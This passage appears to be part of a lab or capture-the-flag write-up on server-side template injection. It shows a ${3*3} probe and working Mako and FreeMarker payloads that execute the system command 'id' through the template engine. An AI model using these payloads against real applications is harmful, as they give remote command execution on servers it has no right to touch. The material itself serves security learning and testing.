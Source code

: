 We can execute for example this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
${3*3}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/54fdd0c195c29dc2afbf64b212c38eba.png)

I tried the Mako's payload from the example and generated an error:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/7922cd4095429a7b76d5b98a0672dcf8.png)

The payload format is:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
${"freemarker.template.utility.Execute"?new()("id")}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
